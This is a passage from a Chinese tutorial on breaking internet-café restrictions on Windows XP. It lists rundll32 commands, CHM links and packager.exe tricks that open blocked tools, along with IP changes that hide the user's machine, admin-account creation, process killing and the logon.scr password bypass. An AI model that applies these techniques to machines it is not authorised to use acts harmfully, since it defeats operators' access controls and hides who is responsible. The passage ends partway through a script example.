计算机管理是一个综合性工具，以计算机管理为根节点延伸出几个子系统工具（进入计算机管理还可以右击“我的电脑”选择“管理”）。通过计算机管理我们可以查看的内容有：本地用户和组、共享目录和会话信息、计算机性能和各种事件的信息；通过设备管理器我们可以看到所有已接入我们计算机的硬件以及驱动信息；存储让我们对硬盘的存储空间、状态、类型等信息一目了然。在服务与应用程序下又包含“服务”、“WMI 控件”、“索引服务”等系统程序。

### d. 事件查看器

Windows 中存在三种事件：应用程序事件、安全事件和系统事件，事件查看器就是集中起来查看这三种事件的一种工具。比如一些程序在运行过程中意外关闭，这个事件就要被记录入应用程序事件；如果系统服务发生了一些变化，比如停止了，这个事件就要被记入系统事件。在事件查看器中，每个事件会对应一个数字，这些数字都是有特定意义的。

#### 3.1.4 计划任务

计划任务是在 Win9x 的时代就存在的一个 Windows 非常实用的功能，它允许用户定时运行某些程序。而在黑客领域，它常被用来在成功获得 SHELL 后执行后门程序，因为在命令行模式下再没有更好的方法了。这里我们就利用“计划任务”添加一个任务让系统运行命令提示符吧！

双击“添加任务”图标，将弹出“计划任务向导”的选项卡，直接点击下一步，来到如图3-1-13。在应用程序中找到命令提示符，这里我已经找到了，直接下一步，这里任务名称就不用更改了，把执行任务的时间选为“一次性”（就不选每次启动了，网吧一般有还原系统，我们着急用呢）。下一步，“起始时间”的分钟默认显示的是当前时间，我们稍微调后 2 分钟就可以了，如图3-1-14。

下一步，计划任务需要用户认证，并且这个用户即使是空密码也是不行的，计划任务要求必须有密码的用户验证。而一般网吧的登录用户是没有密码的，这时候我们就可以先想办法给当前登录用户设置一个密码，然后在这里填入用户名和密码就可以了，如图3-1-15。必须有密码验证，否则是不会成功的。下一步，到完成就可以了。这时候在“计划任务”中就会出现刚才新建的任务了，如图3-1-16。等时间到了，自然会运行命令提示符。

除了使用系统默认的程序外，我们还可以自己指定，在图3-1-13的地方点击“浏览”，然后在“打开”对话框中输入程序的路径和名称就可以了，比如 `C:\Windows\system32\gpedit.msc`，接下来就和上面一样了。

#### 3.1.5 任务栏和“开始”菜单

它就是任务栏的属性了（在任务栏上点击右键，选择属性）。首先在“任务栏”选项卡中，我们可以设置托盘图标的显示形式。点击“通知区域”中的“自定义”按钮，如图3-1-17。

在“自定义通知”的当前项目中列出了当前在托盘中的应用程序。大家知道精锐网吧辅助工具是可以最小化到托盘的，但是还是可以被管理员看到，很不爽。这时候在“行为”列对应精锐的项上点击鼠标，如图3-1-18。

选择总是隐藏，然后应用生效，这时候托盘处的精锐网吧辅助工具就总是隐藏在那个小箭头后面了。我们还可以在这个选项卡中设置其他任务栏中的选项，比如“分组相似的任务栏按钮”，也可以设置是否显示右下角的时钟。

在“开始”选项卡中的自定义中我们可以设置是否在“开始”菜单中显示某个项目，打开“高级”选项卡，如图3-1-19。其中包含“我的电脑”“我的文档”“控制面板”“网络连接”以及最重要的“运行”命令。

#### 3.1.6 日期和时间

也是设置时间相关的东西，时区等也可进入。需要注意的是有些软件在系统时间过了某个时间后会工作异常或拒绝工作；例如聊天软件中把系统时间调到很远的将来，发送消息时间会被隐藏。对于一些有时间限制的软件，把时间往回调有时可继续使用。

#### 3.1.7 添加或删除程序

这个程序可以添加一个新程序或者删除一个已经安装的（Windows 组件或者安装系统后安装的）程序。有人会用这个卸载网吧管理软件，虽然不推荐，但确实可达到目的。

#### 3.1.8 网络连接

查看本机所有连接的工具，从网上邻居属性也可进入。网吧客户端一般只有“本地连接”。若因管理软件原因无法上网，可进入“本地连接”→“TCP/IP 协议”属性，如图3-1-20。

如果网吧使用自动获取 IP 地址，选择“使用下面的 IP 地址”。把 IP 地址最后一位随便改个数字（一般设大一些），如图3-1-21。若出现“IP 地址在网络上已被使用”，表示 IP 冲突（图3-1-22），继续修改直到不冲突即可。

改 IP 时其他设置不要乱动，否则可能不能上网。通过修改 IP 还可在网吧中隐藏自己；很多网吧按 IP 最后一位对应机号。

#### 3.1.9 文件夹选项

文件夹选项是设置资源管理器（包括我的电脑）的一些细节选项，可满足用户偏好，也可对文件打开方式进行设置。通过文件夹选项可以显示系统文件、系统文件夹、隐藏文件、显示扩展名等。

这些都在“文件夹选项”的“查看”选项卡中。这些都是我们查找病毒的必要方法。如果你感觉自己被盗号软件监视了，那先使用上述方法看看驱动器的根目录的隐藏文件中是否有可疑的（比如图标和扩展名不一致）文件。对付一些想法比较简单的小病毒是可以了。另外进入“文件夹选项”还可以从资源管理器的工具菜单。

#### 3.1.10 系统

即系统属性，“我的电脑”的属性也指向的是这里。从这里我们可以获得很多和计算机硬件、系统、用户有关的信息，有时候这些信息是很重要的，当然它还提供了修改这些信息的方法。有些信息比较重要，比如硬件的驱动信息和某些系统信息，我们最好不要去随意修改，那样很容易造成系统运行不正常。系统属性的东西在网吧中我们接触得比较少，只用它来获取一些信息。

#### 3.1.11 显示

即显示属性，从桌面上单击右键选择属性同样可以进入。这里主要设置显示外观和屏幕保护，而涉及到桌面了我们就不得不提到桌面选项卡，如图3-1-23。这里我们能设置桌面的壁纸、壁纸位置以及颜色，而最重要的是这里可以自定义桌面，点击那个“自定义桌面”按钮，出现如图3-1-24。“常规”选项卡中，在“桌面图标”区域我们看到“我的电脑”、“我的文档”等都是打了勾的，这表示这些项目在桌面上显示。有很多网吧的桌面干净得一尘不染，只有自己网吧的几个图标，“我的电脑”等不知去向。这样使用起来不方便，看着都很不爽。这时候你就可以进入这里，把“我的电脑”等的项目前的勾打上，桌面就会出现相应项目了。需要说明的是，这个设置同样只是单纯的隐藏图标，无法阻止用户从其他地方访问它们，比如从开始菜单。从“自定义桌面”中我们还可以更改桌面上几个项目的图标。

#### 3.1.12 用户账户

统一起来管理计算机中的所有账户。我们在这里最常做的就是创建一个新的账户，当然前提是你要有管理权限。建立用户的目的是多方面的，比如前面在计划一个任务的时候，系统要求必须要有一个有密码的账户才可以成功添加任务，而更为常用的是在绕过网吧管理软件方面的应用。很多网吧管理软件的自启动加在了默认登录用户下，这时候你只要新建一个账户（最好是管理员权限），然后注销当前用户并使用新建账户登录，这时候的环境将和你在家里上网无异，你将彻底摆脱网吧管理软件的束缚！

#### 3.1.13 从命令行启动控制面板项目

从我的简单介绍中，我们可以看出控制面板的确是一个强大的系统工具，而这里只仅仅表现了它在安全应用方面的功能。我们前面说过打开一个控制面板扩展需要调用 DLL 文件来打开，在很多情况下网吧管理软件把控制面板或者其中的某些项目隐藏了，只保留了几个“不中用”的（通过上一章的学习我们知道通过组策略也可以达到隐藏控制面板项目的目的）。这时候（在非禁止访问的情况下），我们就可以直接使用命令打开控制面板或者某个控制面板项目了。这里假设“运行”可以使用，我们就直接在“运行”中输入命令来打开指定项目，当然通过命令提示符也是可以的。我们来看一个利用 SHELL32.DLL 打开控制面板的例子。

```text
rundll32.exe shell32.dll,Control_RunDLL
```

在“运行”中输入上面的命令后确定，在控制面板没有被禁止访问的情况下你就打开控制面板了，当然直接输入 control 也是可以的，只不过打开方法不同。再来看一个打开某个控制面板项目的命令：

```text
rundll32.exe shell32.dll,Control_RunDLL sysdm.cpl
```

也许有的朋友猜到了，这个命令打开的是“系统属性”，而使用如下命令：

```text
rundll32.exe shell32.dll,Control_RunDLL sysdm.cpl,,2
```

则是直接打开“系统属性”的“硬件”选项卡，如图3-1-25。区别这两个命令，第二条命令比第一条命令多了“,,2”，它代表的是打开“系统属性”的第三个子项目，注意是第三个。因为在计算机中，很多时候第一个单位都是要标号 0 的，所以 2 表示的是第三个单位。依次类推，如果没有带某个子项目的参数的话，默认打开第一个子项目，在“系统属性”中表现为“常规”选项卡。

有兴趣的朋友可以参阅相关书籍或资料，这里知其然而就可以了。下面我列出一些常用的控制面板项目的打开命令，没有提到的希望读者根据前面列出的控制面板项目名称自己去探索，希望这些命令可以帮到你。

| 命令列 | 功能 |
|---|---|
| `rundll32.exe shell32.dll,Control_RunDLL` | 显示控制面板 |
| `rundll32.exe shell32.dll,Control_RunDLL access.cpl,,1` | 显示“控制面板-辅助选项-键盘”选项视窗 |
| `rundll32.exe shell32.dll,Control_RunDLL access.cpl,,2` | 显示“控制面板-辅助选项-声音”选项视窗 |
| `rundll32.exe shell32.dll,Control_RunDLL access.cpl,,3` | 显示“控制面板-辅助选项-显示”选项视窗 |
| `rundll32.exe shell32.dll,Control_RunDLL access.cpl,,4` | 显示“控制面板-辅助选项-鼠标”选项视窗 |
| `rundll32.exe shell32.dll,Control_RunDLL access.cpl,,5` | 显示“控制面板-辅助选项-常规”选项视窗 |
| `rundll32.exe shell32.dll,Control_RunDLL sysdm.cpl` | 执行“系统属性” |
| `rundll32.exe shell32.dll,Control_RunDLL sysdm.cpl,,0` | 显示“控制面板-系统属性-常规”属性视窗 |
| `rundll32.exe shell32.dll,Control_RunDLL sysdm.cpl,,1` | 显示“控制面板-系统属性-计算机名”属性视窗 |
| `rundll32.exe shell32.dll,Control_RunDLL sysdm.cpl,,2` | 显示“控制面板-系统属性-硬件”属性视窗 |
| `rundll32.exe shell32.dll,Control_RunDLL sysdm.cpl,,3` | 显示“控制面板-系统属性-高级”属性视窗 |
| `rundll32.exe shell32.dll,SHHelpShortcuts_RunDLL AddPrinter` | 执行“控制面板-添加新打印机”向导 |
| `rundll32.exe shell32.dll,Control_RunDLL appwiz.cpl,,0` | 显示“控制面板-添加/删除程序-更改或删除程序”面板 |
| `rundll32.exe shell32.dll,Control_RunDLL appwiz.cpl,,1` | 显示“控制面板-添加/删除程序-添加新程序”面板 |
| `rundll32.exe shell32.dll,Control_RunDLL appwiz.cpl,,2` | 显示“控制面板-添加/删除程序-添加/删除 Windows 组件”面板 |
| `rundll32.exe shell32.dll,Control_RunDLL appwiz.cpl,,3` | 显示“控制面板-添加/删除程序-设定程序访问和默认值”面板 |
| `rundll32.exe shell32.dll,Control_RunDLL timedate.cpl,,0` | 显示“日期与时间”选项视窗 |
| `rundll32.exe shell32.dll,Control_RunDLL timedate.cpl,,1` | 显示“时区”选项视窗 |
| `rundll32.exe shell32.dll,Control_RunDLL desk.cpl,,0` | 显示“显示属性-桌面”选项视窗 |
| `rundll32.exe shell32.dll,Control_RunDLL desk.cpl,,1` | 显示“显示属性-屏幕保护程序”选项视窗 |
| `rundll32.exe shell32.dll,Control_RunDLL desk.cpl,,2` | 显示“显示属性-外观”选项视窗 |
| `rundll32.exe shell32.dll,Control_RunDLL desk.cpl,,3` | 显示“显示属性-设置”选项视窗 |
| `rundll32.exe shell32.dll,SHHelpShortcuts_RunDLL FontsFolder` | 打开字体文件夹 |

| 功能 | 命令列 |
|---|---|
| 显示 Windows 的“字体”文件夹。 | `rundll32.exe shell32.dll,Control_RunDLL main.cpl` |
| 显示“格式化 Windows”对话框。 | `rundll32.exe shell32.dll,SHFormatDrive` |
| 显示“控制面板—游戏控制器”选项窗口。 | `rundll32.exe shell32.dll,Control_RunDLL joy.cpl,,0` |
| 显示“控制面板—键盘属性—速度”选项窗口。 | `rundll32.exe shell32.dll,Control_RunDLL main.cpl,@1` |
| 执行“电话和调制解调器”选项。 | `rundll32.exe shell32.dll,Control_RunDLL modem.cpl,,add` |
| 显示“控制面板—声音和音频设备—音量”属性页。 | `rundll32.exe shell32.dll,Control_RunDLL mmsys.cpl,,0` |
| 显示“控制面板—声音和音频设备—声音”属性页。 | `rundll32.exe shell32.dll,Control_RunDLL mmsys.cpl,,1` |
| 显示“控制面板—声音和音频设备—音频”属性页。 | `rundll32.exe shell32.dll,Control_RunDLL mmsys.cpl,,2` |
| 显示“控制面板—声音和音频设备—语声”属性页。 | `rundll32.exe shell32.dll,Control_RunDLL mmsys.cpl,,3` |
| 显示“控制面板—声音和音频设备—硬件”属性页。 | `rundll32.exe shell32.dll,Control_RunDLL mmsys.cpl,,4` |
| 显示 ODBC 数据源管理器窗口。 | `rundll32.exe shell32.dll,Control_RunDLL odbccp32.cpl` |
| 显示“控制面板—电源”选项窗口。 | `rundll32.exe shell32.dll,Control_RunDLL powercfg.cpl` |
| 显示“控制面板—区域设置属性—区域选项”选项窗口。 | `rundll32.exe shell32.dll,Control_RunDLL intl.cpl,,0` |
| 显示“控制面板—区域与语言选项—语言”选项窗口。 | `rundll32.exe shell32.dll,Control_RunDLL intl.cpl,,1` |
| 显示“控制面板—区域与语言选项—高级”选项窗口。 | `rundll32.exe shell32.dll,Control_RunDLL intl.cpl,,2` |
| 显示“控制面板—Internet 选项”。 | `rundll32.exe shell32.dll,Control_RunDLL inetcpl.cpl` |
| 显示“控制面板—Internet 选项—安全”选项卡。 | `rundll32.exe shell32.dll,Control_RunDLL inetcpl.cpl,,1` |
| 显示“控制面板—网络连接”选项。 | `rundll32.exe shell32.dll,Control_RunDLL ncpa.cpl` |
| 显示“控制面板—用户账户”。 | `rundll32.exe shell32.dll,Control_RunDLL nusrmgr.cpl` |
| 显示“控制面板—Windows 安全中心”。 | `rundll32.exe shell32.dll,Control_RunDLL wscui.cpl` |
| 显示“控制面板—Windows 防火墙”。 | `rundll32.exe shell32.dll,Control_RunDLL firewall.cpl` |

## 3.2、系统盘中隐藏的杀机

其实控制面板就是一个把很多系统程序组合起来的集合，但它并没有把所有的程序和功能都包含进来。这一小节笔者把系统盘下剩余的可以利用的程序过一遍筛子，以正我“搜到狂”之名~

### 3.2.1、在 Windows 目录下

我们所熟悉的注册表编辑器 `regedit.exe` 就在这个目录下，另外记事本 `NOTEPAD.EXE` 也在这个目录下。除了这两个程序外，资源管理器也在 Windows 目录下，它们是 **explorer.scf** 和 **explorer.exe**。

### a、Windows 的帮助系统


我们平常经常接触到很多以 CHM 为扩展名的教程，这些文件在 Windows 中被命名为“已编译的 HTML 帮助文件”，而这些文件的执行程序就是 Windows 目录下的 `hh.exe`。Win98 之前 Windows 使用 `.hlp` 帮助文档；1998 年微软推出基于 HTML 的 CHM 帮助系统以替代 WinHelp。CHM 可支持 JavaScript、VBScript、ActiveX、Java Applet、Flash、图片（GIF/JPEG/PNG）及音视频（AU/MIDI/WAV/AVI）等，并可通过 URL 与因特网关联。

一个 CHM 文件运行需要调用 `hh.exe`。它类似简化版浏览器，CHM 中常见超链接多指向当前 CHM 内部页面。除普通页面跳转外，也可在 CHM 中使用“跳到 URL”功能，输入路径访问本地资源（如 `C:\`）。文中通过查看 CHM 文件中某个超链接属性说明其机制。

文中给出示例 URL：`ms-its:msinfo32.chm::/msinfo_overview_01.htm`，其中前一部分为 CHM 文件名，后一部分为页面路径。`ms-its` 类似协议头，主要在 CHM 环境中使用。

作者进一步说明：某些 CHM 页面可触发系统程序（如 `mmc.exe`、`gpedit.msc`）。示例链接：`mk:@MSITStore:C:\windows\help\mmc.chm::/EXEC=,MMC.exe,%20CHM=mmcconcepts.chm/%20FILE=alt_url_snapin.htm`。直接在“跳到 URL”中使用可能无效，但在 CHM 页面按钮中可执行。

| 项目名称 | URL |
|---|---|
| 管理控制台 MMC | `mk:@MSITStore:C:\windows\help\mmc.chm::/policy_author_mode.htm` |
| 组策略编辑器 | `ms-its:C:\Windows\Help\SPconcepts.chm::/StartGPstandaloneEnv.htm` |
| 注册表编辑器 | `ms-its:C:\Windows\Help\regedit.chm::/regedit_find.htm` |
| 命令提示符 | `ms-its:C:\WINDOWS\Help\ntcmds.chm::/CommandPromptOptions.htm` |
| 任务管理器 | `ms-its:C:\Windows\Help\howto.chm::/app_taskman.htm` |
| 记事本 | `ms-its:C:\Windows\Help\howto.chm::/app_notepad.htm` |
| 网络连接 | `ms-its:C:\Windows\Help\netcfg.chm::/hnw_enable_security_logging.htm` |
| Internet 选项 | `ms-its:C:\Windows\Help\icwdial.chm::/icw_overview.htm` |
| 计算机管理 | `ms-its:C:\WINDOWS\Help\howto.chm::/snap_localmgr.htm` |
| 添加或删除程序 | `ms-its:C:\WINDOWS\Help\addremov.chm::/win_addprog_remove_software.htm` |
| 文件夹选项 | `ms-its:C:\Windows\Help\admtools.chm::/folderopt.htm` |
| 本地安全设置 | `ms-its:C:\Windows\Help\saferconcepts.chm::/SRP_start.htm` |
| 服务 | `ms-its:C:\WINDOWS\Help\howto.chm::/snap_syssrv_mgmt.htm` |

使用时可复制上面的一个 URL，在“跳至 URL”的对话框中粘贴链接并跳转（如图 3-2-3）。


这是我跳转后的截图，大家看到左面的窗口显示的是注册表编辑器，而右边却显示的是 CMD 的相关内容，这样并没有什么，点击右边窗口的“命令提示符”就可以打开 CMD 了，其它程序雷同。当然链接不止这些，大家还可以自己找一些其它的，这些包含打开应用程序的链接一般在帮助文件的“如何”内……

不仅仅是 Windows，现在很多软件都使用 CHM 文件作为帮助系统。只要我们获得了一个 CHM 文件，就可以轻松突破网吧限制。Windows 内部程序的大部分帮助文件都保存在 `C:\WINDOWS\Help` 中……“帮助和支持中心”工作目录位于 `C:\WINDOWS\PCHealth\HelpCtr`，主程序为 `HelpCtr.exe`，还需要 `HelpHost.exe` 和 `HelpSvc.exe` 支持。


> 图 3-2-4：有用的链接

“帮助和支持中心”既可以显示 CHM 文件内容，也可以显示 `.hlp` 文件内容。虽然它无法跳转 URL，但可以手工查找包含执行应用程序链接的页面，常在“系统管理”和“工具”选项中。除工具外，这里还可获得大量系统信息（进程、服务等）。

### 3.2.2、在 SYSTEM32 目录下

Windows 中绝大部分系统程序和 CMD 的外部命令都保存在 `C:\Windows\System32` 目录下。该目录对系统极其重要，也因此常成为病毒和黑客程序“光顾”的地方。很多恶意程序会伪装系统文件名或寄居于 `system32` 目录。

前面提到目录中的程序可在“运行”中直接以文件名调用。即便进不了 SYSTEM32 目录，只要在“运行”中输入文件名，也可使用对应程序，这也是一种网吧破解的思路。

- **a、exe 文件**

System32 目录下存在大量 `.exe` 文件。下面列表给出几个比较有用的 exe 程序：

| 文件名 | 描述 |
|---|---|
| cmd.exe | 命令提示符 |
| mstsc.exe | 远程桌面客户端程序 |
| sysedit.exe | 系统配置编辑器 |
| write.exe | 写字板 |
| regedt32.exe | 注册表编辑器 |
| iexpress.exe | 安装包制作程序 |
| taskmgr.exe | 任务管理器 |
| packager.exe | 对象包装程序 |
| mmc.exe | Microsoft 管理控制台 |

这里要对后几个进行比较详细的讲解。

- **a-1、任务管理器**

任务管理器的重要性不言而喻，许多朋友使用它作为破解网吧管理软件的利器，因此任务管理器也成为网管必杀项目之一。

## 网吧破解新大陆

一般任务管理器有应用程序、进程、性能、联网和用户五个选项卡。在应用程序中它列出了所有具有窗口属性的程序……在某个应用程序上点击右键选择“转到进程”就可以找到应用程序对应的进程……


在“进程”选项卡中列出了所有系统中存在的进程……点击“用户名”后任务管理器会自动按用户进程到系统进程顺序排列。一般网吧管理软件的进程多是用户进程，通常可结束；而部分系统进程会受系统保护机制影响，难以直接结束。


“性能”选项卡中列出了系统 CPU 和内存等使用情况，“联网”选项卡中列出了网络性能与流量信息，“用户”选项卡列出当前登录系统的所有用户。通过这些信息可以观察系统状态与用户登录情况。


- **a-2、对象包装程序**

可在“运行”中输入 `packager` 打开，选择“编辑”菜单中的“命令行”，然后在“命令”中输入任意 `cmd` 命令或系统程序名称（如 `gpedit.msc`），确认后即可在对象包装程序右窗体中出现并执行相应命令。

当然选择打开了，然后你就得到了“组策略编辑器”！呵呵，很新奇的一种方法吧！而且使用对象包装程序运行 `cmd` 命令的一个特性是：即使系统禁止使用了命令提示符及其脚本，在这里还是可以成功执行 `cmd` 命令的，一次只能执行一条，这给我们突破网吧对于 `cmd` 的限制又提供了一种方法。其实对象包装程序的这个功能就像“运行”一样，因此其杀伤力可想而知了。

- **a-3、Microsoft 管理控制台**

MMC 大家已经很熟悉了，前面在讲解组策略编辑器的时候我们就学习了如何在 MMC 下添加 `gpedit.msc`。它的名称是管理控制台，可以看成一个母程序或者说是一个平台，在这个平台的基础上可以扩展出其它功能，而这些功能的表现形式就是 `.msc` 文件了。也就是说如果我们获得了 `mmc.exe`，那其支持的扩展功能（可添加的 `.msc` 文件）都可以使用了，这将成为一个功能强大的管理平台，破解网吧限制自然不在话下。前面添加组策略编辑器的时候大家也许也发现了添加列表中有很多可选项目，这些项目都对应 `system32` 目录下的 `.msc` 文件，接下来我们将学习这些文件。

- **b、msc 文件**

`.msc` 文件在 WinXP 中占有举足轻重的地位，许多系统功能的实现都依赖于这些文件，控制面板中的许多项目也和 `.msc` 文件有关联。`.msc` 文件的类型被描述为 Microsoft 通用管理文档，也可以说是 MMC 的子程序或者模板，它们可以说是提供给用户使用系统高级功能的、具有友好界面的应用程序，因此功能强大且使用简单。首先列出所有存在于 `system32` 目录下的 Microsoft 通用管理文档：

| 文件名 | 描述 |
|---|---|
| certmgr.msc | 证书 |
| ciadv.msc | 索引服务 |
| compmgmt.msc | 计算机管理 |
| devmgmt.msc | 设备管理器 |
| dfrg.msc | 磁盘碎片整理程序 |
| diskmgmt.msc | 磁盘管理 |
| eventvwr.msc | 事件查看器 |
| fsmgmt.msc | 共享文件夹 |
| gpedit.msc | 组策略编辑器 |
| lusrmgr.msc | 本地用户和组 |
| ntmsmgr.msc | 可移动存储 |
| ntmsoprq.msc | 可移动存储管理操作请求 |
| perfmon.msc | 性能 |
| rsop.msc | 策略的结果集 |
| secpol.msc | 本地安全设置 |
| services.msc | 服务 |
| wmimgmt.msc | Windows 管理体系结构（WMI） |

除了这些 msc 文件外，根据安装软件的不同还可能存在以下几个文件：

| 文件名 | 描述 | 文件路径 |
|---|---|---|
| mscorcfg.msc | .NET Framework 1.1 配置 | `C:\WINDOWS\Microsoft.NET\Framework\v1.1.4322` |
| comexp.msc | 组件服务 | `C:\WINDOWS\system32\Com` |
| iis.msc | Internet 信息服务 | `C:\WINDOWS\system32\inetsrv` |

它们在系统中出现在不同场合，其中的很多项目我们在控制面板中已经粗略讲解过了，最需要掌握使用的除了组策略编辑器外还有 `secpol.msc`（本地安全设置）、`compmgmt.msc`（计算机管理）、`devmgmt.msc`（设备管理器）。其中设备管理器是管理系统中已安装的硬件以及驱动程序的，在系统属性中也有这个选项。对学习软件的朋友来说，硬件的东西还是比较晦涩，笔者同样如此，但毕竟软件和硬件是不可分的，驱动程序就是连接它们的桥梁，在后面我们会讲到利用设备管理器的网吧破解方法。

- **c、其它类型的文件**

**.scr 文件**：屏幕保护程序。其中的一个 `logon.scr` 是系统默认的屏幕保护程序，系统默认开启屏幕保护且等待时间为十分钟。有一种忘记系统密码的解决方案：将 `cmd.exe` 改名为 `logon.scr` 然后覆盖原文件，等系统启动到输入用户密码的时候等待一分钟，然后命令提示符就会跳出来，这时候就可以更改用户密码从而登录系统了。虽说这种方法有局限性，但其新颖和巧妙的思路让我兴奋。

**.com 文件**：`.com` 文件是 MS-DOS 应用程序，从名称也可以看出，这些程序来自 Win9x。它们是 16 位的命令行应用程序，执行时调用 `command.com`（类似命令提示符的应用程序），其实它就是 Win9x 中的 MS-DOS。在 WinXP 中，`.com` 文件和 `.exe` 文件很类似，只不过一个是 16 位一个是 32 位，执行速度有所不同。总之 WinXP 保留了这些 16 位命令行程序在系统中，它们中的其中几个也许后面我们会涉及到。

#### 3.2.3 在 Program Files 目录下

在 Program Files 目录下，除了 Windows 安装时自带的软件，比如 IE、MSN Messenger 等，第三方需要安装的软件也通常默认安装在此目录，许多网吧管理软件亦如此。在网吧中除了游戏等娱乐软件外，大部分应用程序都安装在这个目录中，比如有些专业的网吧会把 Office 装到 Program Files 目录中。除了这些微软的产品外，网吧中经常用到的一些应用软件也可以被我们用在网吧破解上。

### a、NetMeeting 独舞

笔者也去过 N 家网吧了，感觉那些老板都有个通病，他们认为只要是权威公司提供的东西都是好的，也有些管理员不懂技术所以不敢轻易删除系统中的一些程序，尤其是默认安装在系统盘的 Program Files 和 Windows 目录下的东西。其实微软是很会体谅人的，在 Win98 的时候它就提供了一个远程通讯软件——NetMeeting。到现在已经有很多人知道它，却没有多少人在用，毕竟 QQ 在国内的用户群太庞大了。但是据我的舍友说，QQ2000 的时候视频聊天使用的就是 NetMeeting，看起来微软做得要比腾讯早，不过术业有专攻而已。是的，NetMeeting 不但支持视频聊天，你还可以利用它支持远程会议、和别人共享桌面、程序，当然也可以聊天了。哈，共享……

Windows 安装时默认安装 NetMeeting，位于 `C:\Program Files\NetMeeting` 下，客户端名称为 `Conf.exe`。NetMeeting 支持点对点通信，但要求两台通信的主机在同一网段；它还支持通过服务器通信，这些服务器由一些 NetMeeting 服务器提供商提供，我们只要写上服务器地址就可以了，这就像 QQ 等通讯软件一样。好了，说了这么多，下面让我们来看看如何使用 NetMeeting，重要的是如何发送文件给对方。

### a-1、点对点通信下的文件传送

首先确定你和要通信的主机在同一网段，比如这里我和对方主机 IP 分别为 192.168.56.9 和 192.168.56.8，分别命名为 09 IBM 和 08 IBM。首先打开 conf.exe（运行中输入 Conf 也可以），界面如图 3-2-12。


在地址栏写对方 IP，然后点击地址栏右侧电话图标的呼叫按钮就可以了。这时候对方就会听到清脆的电话铃声并提示有一个传入的呼叫，如图 3-2-13。


点接受就可以加入 09 主持的会议了，即建立了连接。建立连接后在本地的成员名单中就可以看到对方了，如图 3-2-14。


在“文件传送—在呼叫中”对话框中点击工具栏的第一个按钮，然后选择你要传送的程序；在对话框中就会出现那些程序的列表了，如图 3-2-16。NetMeeting 支持多个文件的传送，然后在要发送的文件上点击右键选择“发送一份文件”，或者选择“文件”菜单中的“全部发送”命令，NetMeeting 将自动发送所有列表中的文件。


这种方式的文件传输速度是很快的。这时候对方的反应如图 3-2-17。选择打开就直接打开了发送的文件，还不用再去硬盘中找发送的程序。如果网吧有访问硬盘限制的话，这点就是 NetMeeting 相对 QQ 的优势了。但是我们仍然需要了解这些文件是保存在 `C:\Program Files\NetMeeting\Received Files` 下的，点击“文件传送—在呼叫中”对话框中的“查看接收的文件”按钮就可以直接进入该目录。当然这个目录可以修改，在该对话框的文件菜单中选择“更改文件夹”，然后选择一个文件夹就可以了，这也可以突破网吧的硬盘访问限制。


这种方法的通信双方都必须在同一个网段，而如果想实现与任意点的通信，则必须通过 NetMeeting 服务器中转。

### a-2、通过服务器通信

当你和你的朋友存在于 WAN（广域网）的两个不同节点时，就需要使用这种方式建立连接。NetMeeting 服务器官方公布过很多，但是没有一个我登录成功的，难道是 RP 问题？国内也有很多 NetMeeting 服务器，像保定热线什么的，还有很多是大学等科研组织建立的，从 Baidu 上可以搜索到很多 NetMeeting 服务器地址，这里假设地址是 netmeeting.microsoft.com。


其实在第一次使用 NetMeeting 的时候会有一个向导引导用户进行相关设置，其中我们需要注意的有图 3-2-18 和 3-2-19 的步骤。其他的步骤保持默认就可以了，因为启动 conf.exe 后所有的设置都还可以更改。点击 NetMeeting 主界面的“工具”菜单，选择其中的“选项”，在常规选项卡中我们可以更改自己的姓名、电子邮件以及最重要的服务器地址，如图 3-2-20。


在目录中输入服务器地址，然后确定，这时候它会提示你是否登录服务器，点击“是”你就可以登录服务器了。如果 NetMeeting 服务器没有问题，你的网络连接设置没有问题的话就可以成功登录服务器了，点击菜单的第三个按钮你就可以查看登录到当前服务器目录的所有没有隐藏姓名的用户了（由于条件原因这里无法抓图，但笔者确实和一个北京的朋友在 NetMeeting 上共享桌面）；而如果 NetMeeting 服务器不可用或你的网络连接有问题，在登录服务器的时候就会出现图 3-2-21 的提示。


其实更多的时候是 NetMeeting 服务器的问题，现在可用的 NetMeeting 服务器已经很少了，反正笔者找了 N 久也没有找到一个能用的，记得上次用 NetMeeting 还是前年了。并且 NetMeeting 服务器不像 Web 服务器那样是 24 小时工作，它是免费的，无法盈利，我想这也是其中的原因之一吧！NetMeeting 不仅可以传送文件，它还可以和通信的一方共享桌面并控制，这留给大家自己去尝试。总结来说利用 NetMeeting 传送文件是很多管理员都会忽略的，因此使用这个方法的成功率很高，我去过的几个网吧对 NetMeeting 都是放行的，所以当 QQ 或者 MSN 不灵通时，不妨试试这个方法哦！

### b、其他

Outlook Express 在网吧中几乎没有人用，但也会出现在 Program Files，难道又是默认安装惹的祸？当你无法用右键或无法查看网页的源文件来获得一个文本文档的时候，你进入“工具”菜单的“选项”，在“拼写检查”选项卡中有个“编辑自定义词典”的按钮，如图 3-2-22。


点击它就得到一个 CUSTOM.DIC 的文本文档，可以编辑可以另存，随便你了；在“连接”选项卡中有个“更改”按钮，点击它则可以进入“Internet 选项”中的连接选项卡，当然这是在没有禁止访问 Internet 选项的情况下了。另外在 `C:\Program Files\Common Files\Microsoft Shared\MSInfo` 下有一个 `msinfo32.exe`，这个是微软出的系统信息程序，在其中我们可以查看关于系统的硬件和软件的所有信息，非常详细。平常我们抱怨任务管理器中无法显示进程对应的应用程序以及路径信息，这点系统信息可以很好地弥补。打开 **“系统摘要”——“软件环境”——“正在运行的任务”**，我们可以查看到进程以及对应程序的路径信息，如图 3-2-23。

这个给我们查找病毒文件带来了方便。除了文件路径外，它提供了比任务管理器更详细的关于任务的种种信息。系统信息就如其名，是一个系统信息的大合集，这个东西非常有用，在后面的文章中，还将有它的戏份哦！

## 3.3、使用 VBS 和 JS 脚本文件

前面我们已经接触过 VBS 了，它是一种强大的脚本语言。其实 JS 和 VBS 是很像的，只不过它们的侧重点不同，JS 更侧重于网页制作。在语句书写方面，JS 的每个语句需要用分号结束，而 VBS 不需要；在操作路径方面，JS 使用双反斜线 `\\` 指定路径，VBS 使用单反斜线 `\`，注释 VBS 使用单引号（`'`），JS 使用双斜线（`//`）。还有最重要的是 JS 是大小写敏感的脚本语言，而 VBS 不敏感。相同的是它们都可以对系统进行某种操作。这里我们只讲解使用这两种脚本操作注册表和运行文件，有关它们更详细的描述请参考微软的官方文档或相关书籍。

### 3.3.1、使用 VBS 和 JS 脚本运行程序

我们使用它们都拥有的 Run 方法来运行应用程序，比如我们要运行组策略编辑器，VBS 和 JS 的代码如下：

```vb
'VBS_RUN_START
On Error Resume Next
Dim WshShell
Set WshShell = WScript.CreateObject("WScript.Shell")
WshShell.Run("gpedit.msc")
'VBS_RUN_END

//JS_RUN_START
var WshShell = WScript.CreateObject("WScript.Shell");
